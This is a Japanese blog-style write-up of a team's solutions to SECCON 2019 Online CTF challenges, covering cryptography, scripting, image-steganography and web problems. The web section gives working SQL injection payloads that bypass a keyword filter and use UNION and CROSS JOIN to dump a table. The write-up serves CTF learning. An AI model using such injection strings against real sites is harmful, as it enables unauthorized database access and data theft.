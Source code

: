 ```yaml
---
title: "SECCON 2019 Online CTF Writeup"
date: 2019-10-20T18:15:23+09:00
draft: false
bigimg: [{src: "/img/seccon-2019-online-ctf.png"}]
tags: ["CTF"]
---
```


[SECCON 2019](https://www.seccon.jp/2019/) 

チーム「./Vespiary」で出て 37 位 2402 点でした。
以下、自分が取り組んだ問題です（チームメンバーと一緒に解いたもの含む）。

{{< toc >}}

# [crypto] coffee_break
ソースコードを読んで逆算するプログラムを書けば良い。

```py
import sys
from Crypto.Cipher import AES
import base64

def decrypt(key, cipher):
    s = ''
    for i in range(len(cipher)):
        c = cipher[i] - 0x20 - (ord(key[i % len(key)]) - 0x20)
        if c < 0:
            c += (0x7e - 0x20 + 1)
        c += 0x20
        s += chr(c)
    return s

key1 = "SECCON"
key2 = "seccon2019"
cipher = AES.new(key2 + chr(0x00) * (16 - (len(key2) % 16)), AES.MODE_ECB)

encoded = "FyRyZNBO2MG6ncd3hEkC/yeYKUseI/CxYoZiIeV2fe/Jmtwx+WbWmU1gtMX9m905"

enc2 = base64.b64decode(encoded)
enc1_ = cipher.decrypt(enc2)

print(decrypt(key1, enc1_))
```

`SECCON{Success_Decryption_Yeah_Yeah_SECCON}`

# [misc] Beeeeeeeeeer
とりあえず与えられたシェルスクリプトを実行してみると、文字が増えたり消えたりするCUIアニメーションが表示される。シェルスクリプトで具体的に何が行われているか知るために**気合**で人力フォーマットと`echo`コマンドを駆使して解読していった。
適宜`bash -x`を使うことで楽に解読できる。

`SECCON{hogefuga3bash}`

# [crypto] ZKPay

signupにめちゃくちゃ時間がかかる。signupクエリを送った後に、homeへ移動してみると普通に利用できることがわかった。そこで、signupした直後にcreateQRをしてみたが、どうやら1分待たないと正常なQRコードが生成されない。

$1,000,000 / $500 = 2000 で自動化が現実的なので、2000個アカウントを生成してメインのアカウントにお金を送るスクリプトを書いた。

実行に3時間かかったが無事flagを得た。

![](https://i.gyazo.com/7be2f37c7e9749a01460b1d82a4c98a7.png)

# [web] web_search

適当に記号を入力してみると、`'`でErrorすることがわかる。
SQL injection を使う問題であることを疑い、色々実験すると、

- 空白文字` `が消える
- `,`が消える
- `or`,`and`が消える
- `oorr`が`or`になる
- `#`が効く
- `/**/`が空白代わりになる

などがわかる。

`#`が効くことからMySQLが使われていることが推測でき、
`'oorr'1'='1'#`で、
```
FLAG
The flag is "SECCON{Yeah_Sqli_Success_" ... well, the rest of flag is in "flag" table. 
Try more!
```
Flagの前半部分を得る。

`flag`テーブルにflagがあるようなので、UNIONを用いてflagを表示させたいが、`,`が消されるのでカラム数を合わせることが難しい。

CROSS JOIN を用いて、

`' OORR '1' = '1' /**/ UNION /**/ SELECT /**/ * /**/ FROM /**/ (SELECT /**/ * /**/ FROM /**/ flag)aaa /**/ CROSS /**/ JOIN /**/ (SELECT /**/ * /**/ FROM /**/ flag)bbb /**/ CROSS /**/ JOIN /**/ (SELECT /**/ * /**/ FROM /**/ flag)ccc#"`

を送信すると、フラグが得られる。

`SECCON{Yeah_Sqli_Success_You_Win_Yeah}`

# [crypto] Crazy Repetition of Codes

crc32は決定的な関数なので、鳩の巣原理よりcrcの値の周期が2^32以下であることがわかる。よって`int('1'*10000) % 周期`の回数crc32を実行すればいい。

# [misc] Sandstorm

![](https://i.gyazo.com/bb6d5672d1d08dbd55fcdfbef4c7384c.png)

画像に`My name is Adam`とあり、010 Editorなどのツールでファイルを見るとインターレースがAdam7になっているので[Adam7 algorithm - Wikipedia](https://en.wikipedia.org/wiki/Adam7_algorithm)が関係していそうとわかる。

これに着想を得て、8ピクセルごとにピクセルを抽出して画像にしてみると、

```py
from PIL import Image

img = Image.open('sandstorm.png')
W, H = img.size

img2 = Image.new('RGBA', (W//8, H//8))

for y in range(0,H//8):
    for x in range(0,W//8):
        img2.putpixel((x,y), img.getpixel((x*8,y*8)))

img2.save('img2.png')
```

![](https://i.gyazo.com/e5ccd541bf310d656aa11d8db1aec3d7.png)

QRコードが得られる。

`SECCON{p0nlMpzlCQ5AHol6}`

